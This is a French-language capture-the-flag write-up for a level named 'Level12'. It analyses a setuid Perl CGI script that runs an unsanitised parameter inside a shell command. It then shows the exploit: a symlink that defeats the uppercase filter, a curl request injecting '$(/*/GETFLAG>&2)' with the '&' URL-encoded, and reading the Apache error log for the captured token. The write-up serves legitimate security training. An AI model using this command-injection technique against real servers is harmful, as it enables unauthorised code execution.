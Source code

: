 # [Level12]

### Observations:
##### J'affiche le contenue du programme '~/level12.pl':
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

Je me rend compte que ce programme est exécuté par défaut en tant qu'utilisateur `flag12` grâce à la commande:
```sh
ps aux | grep flag12
```

##### Entrées du programme:
```perl
string x
string y
```

##### Fonctionnement:
Ce programme est composé de deux fonctions aux utilitées douteuses:
 * La fonction \<t>:
	1. Applique un filtre sur `x` qui transforme les lettres minuscules en majuscules.
	2. Applique un filtre sur `x` qui enlève tout ce qu'il y a après un caractère de séparation.
	3. Exécute une commande shell qui utilise la variable `x` modifiée.
 * La fonction \<n> est inutile dans son fonctionnement.

> Le programme tourne sur un serveur tcp par defaut

##### Conclusions:
Ce programme a une faille dans la fonction \<t> plus précisement au moment d`exécuter la commande shell. \
Nous pouvons insérer la commande que nous voulons dans celle-ci tant que nous respectons ces règles simples:
 - Utiliser uniquement des caractères majuscule.
 - Ne pas écrire de caractères de séparation.

### Résolution
Je créer un lien symbolique léger pour me permettre d'exécuter getflag avec des caractères majuscules. \
J'effectue une requête au serveur avec ma commande à injecter que je redirige dans le flux d'erreur. \
Puis j'affiche la dernière ligne du fichier de log du flux d'erreur.

#### commandes:
```bash
ln -s /bin/getflag /tmp/GETFLAG
curl '127.0.0.1:4646?x="$(/*/GETFLAG>%262)"'
tail -n 1 /var/log/apache2/error.log
```
> Notez l'utilisation du shellcode `%26` pour éviter que le caractère de `&` soit pris en compte dans le filtre de séparateurs.


**token :** g1qKMiRpXf53AWhDaU7FEkczr
